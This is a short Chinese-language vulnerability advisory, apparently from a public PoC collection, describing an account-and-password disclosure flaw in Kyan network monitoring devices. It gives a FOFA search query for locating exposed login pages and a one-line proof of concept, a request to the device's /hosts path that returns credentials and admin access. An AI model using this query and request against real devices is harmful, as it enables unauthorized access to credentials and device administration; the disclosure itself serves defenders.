



# Kyan 网络监控设备 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

> [!NOTE]
>
> Kyan

## FOFA

```
title="platform - Login"
```

## 漏洞复现

登录页面如下



POC

```
http://xxx.xxx.xxx.xxx/hosts
```



成功获得账号密码

## Goby & POC

> [!NOTE]
>
> Kyan design account password disclosure



## 参考文章

https://www.secquan.org/BugWarning/1071987